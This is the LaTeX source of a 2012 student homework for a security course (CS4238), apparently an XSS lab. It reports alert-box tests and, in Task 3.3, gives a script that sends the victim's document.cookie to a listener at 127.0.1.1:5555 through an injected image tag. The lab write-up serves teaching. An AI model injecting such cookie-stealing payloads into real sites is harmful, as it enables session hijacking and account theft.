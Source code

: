 \documentclass[12pt]{article}
\begin{document}
\title{CS4238 Homework 2}
\author{Laurence Putra Franslay (U096833E)}
\date{22th Oct 2012}
\maketitle

\section{Task 3.1}
An alert box containing the text `XSS' pops up.\\

\includegraphics[width=160mm]{task31.png}



\section{Task 3.2}
An alert box containing the contents of the cookie pops up.\\

\includegraphics[width=160mm]{task32.png}
\pagebreak



\section{Task 3.3}
\subsection{How the attack is done}
Script inserted is as below. The browser will send a request to 127.0.1.1 (I'm booting up a VM from the HDD), port 5555, with the variable c being the cookie.
\lstset{caption=Script, frame=single}
\begin{lstlisting}
<script>document.write('<img src="http://127.0.1.1:5555?c='+ document.cookie + '"">');</script>
\end{lstlisting}
\end{document}
